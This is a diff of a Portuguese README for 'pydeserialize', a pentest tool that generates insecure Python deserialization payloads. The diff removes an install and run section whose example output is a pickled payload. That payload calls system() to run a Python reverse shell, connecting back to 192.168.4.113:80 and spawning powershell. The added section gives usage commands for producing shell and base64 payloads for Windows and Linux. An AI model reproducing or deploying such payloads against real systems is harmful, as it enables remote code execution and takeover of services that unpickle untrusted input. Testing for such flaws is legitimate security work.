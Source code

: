```diff
-
-pydeserialize requer **python3** e para baixá-lo só usar:
-
-```sh
-pip3 install pydeserialize
-```
-
-# Executando pydeserialize
-
-```console
-pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell
-
-           _                 _     _ _         
- ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
-| . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
-|  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
-|_| |___|  
-     v0.0.7 - @joaoviictorti     
-
-b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("powershell")\'\x94\x85\x94R\x94.'
-```
-
+<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=header"/>
+
+[![Typing SVG](https://readme-typing-svg.herokuapp.com/?color=0000FF&size=32&center=true&vCenter=true&width=1000&height=30&lines=pydeserialize)](https://git.io/typing-svg)
+
+
+
+<h4 align="center">Tool for testing python insecure deserialization vulnerabilities</h4>
+
+
+<p align="center">
+  <a href="#características">Features</a> •
+  <a href="#instalação">Install</a> •
+  <a href="#forma-de-utilização">How to use</a> •
+  <a href="#executando-pydeserialize">Usage</a>
+</p>
+
+---
+
+
+O pydeserialize é uma ferramenta que gera payloads de desserialização insegura em python. Possui uma funcionalidade que faz encode das payloads desejadas e dessa forma sendo simples e otimizada para velocidade. pydeserialize é construído para fazer apenas uma coisa - gera payloads de desserialização insegura + encodes e faz isso muito bem.
+
+Projetei o `pydeserialize` para cumprir todas as responsabilidades para gera payloads e encodes, mantive um modelo consistentemente passivo para torná-lo útil para testadores de penetração.
+
+# Características
+
+ - Gera payloads para explora vulnerabilidades de desserialização insegura em python    
+
+# Forma de utilização
+
+```sh
+pydeserialize -ip 192.168.4.113 -p 80 -e shell -o Windows
+pydeserialize -ip 192.168.4.113 -e b64 -p 80 -o Linux
```